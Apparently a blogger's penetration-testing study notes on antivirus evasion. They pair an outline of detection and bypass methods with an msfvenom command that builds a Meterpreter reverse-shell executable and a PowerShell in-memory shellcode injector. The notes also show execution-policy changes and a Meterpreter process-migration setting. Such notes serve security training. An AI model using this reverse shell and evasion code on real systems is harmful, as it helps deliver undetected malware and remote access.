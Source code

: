 ```yaml
---
title: Study Notes - 2021/03/24
date: 2021-03-23 23:17:57
tags: [Penetration Testing, Study Notes]
---
```


# Antivirus Evasion  
First generate a reverse shell:  
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.11.0.4 LPORT=4444 -f exe > binary.exe  

https://www.virustotal.com/#/home/upload  

# Detection Method 

## Signiture-based  
blacklist technology  
a cotinuous series of bytes that uniquely identify it -> change or obfuscating the content 
## Heuristic and Behavioral-Based Detection  

Heuristic-Based Detection is a detection method that relies on various rules and algorithms to determine whether or not an action is considered malicious

Behavioral-Based: This is often achieved by executing the file in question in an emulated environment, such as a small virtual machine, and looking for behaviors or actions that are considered malicious.

# Bypassing 
## On-disk evasion 
Packers, smaller, functional equivalent -> new signiture, bypass older antivirus detection  

### Obfuscator
Re-organize and mutate code, more difficult to reverse engineer , dead code

### Cypters 
Add a decryption step, in memory decryotion, invisible to malware detection


virtualmachine emulation detection, detect if it is executed in a virtual machine envrionment  

### Software Protectors 


## in-memory evasion 
PE injection, manipulation of its own memory, does not write any thing to disk  

### Remote Process Memory Injection  
### Reflective DLL injection  
write their own version of api to load in memory dll  

### Process Hollowing 
suspend a benign process, then image changed, resume executon 

### Inline Hook
modify memory, inject a hook, handler, to malicious code  

# Practical example  
Target a specific anti-virus product 

# in-memory injection  
```
$code = '
[DllImport("kernel32.dll")]
public static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize, uint
flAllocationType, uint flProtect);
[DllImport("kernel32.dll")]
public static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize,
IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);
[DllImport("msvcrt.dll")]
public static extern IntPtr memset(IntPtr dest, uint src, uint count);';
$winFunc =
Add-Type -memberDefinition $code -Name "Win32" -namespace Win32Functions -passthru;
[Byte[]];
[Byte[]]$sc = <place your shellcode here>;
$size = 0x1000;
if ($sc.Length -gt 0x1000) {$size = $sc.Length};
$x = $winFunc::VirtualAlloc(0,$size,0x3000,0x40);
for ($i=0;$i -le ($sc.Length-1);$i++) {$winFunc::memset([IntPtr]($x.ToInt32()+$i),
$sc[$i], 1)};
$winFunc::CreateThread(0,0,$x,0,0,0);for (;;) { Start-sleep 60 };
```

use load code into the memory, then execute with create thread. in powershell script 

prevent from execution:
```
C:\Users\offsec\Desktop> powershell .\av_test.ps1
.\av_test.ps1 : File C:\Users\offsec\Desktop\av_test.ps1 cannot be loaded because
running scripts is disabled on this
system. For more information, see about_Execution_Policies at
http://go.microsoft.com/fwlink/?LinkID=135170.
At line:1 char:1
+ .\av_test.ps1
+ ~~~~~~~~~~~~~
+ CategoryInfo : SecurityError: (:) [], PSSecurityException
+ FullyQualifiedErrorId : UnauthorizedAccess


C:\Users\offsec\Desktop> powershell
Windows PowerShell
Copyright (C) 2015 Microsoft Corporation. All rights reserved.
PS C:\Users\offsec\Desktop> Get-ExecutionPolicy -Scope CurrentUser
Undefined
PS C:\Users\offsec\Desktop> Set-ExecutionPolicy -ExecutionPolicy Unrestricted -Scope
CurrentUser
PS C:\Users\offsec\Desktop> Get-ExecutionPolicy -Scope CurrentUser
Unrestricted
```

# Shelter
stealth mode: restore the execution of original flow after finish the injected code  

Session died after original code exit 

we can set up an AutoRunScript to migrate our Meterpreter to a separate process immediately after session creation
```
set AutoRunScript post/windows/manage/migrate
```

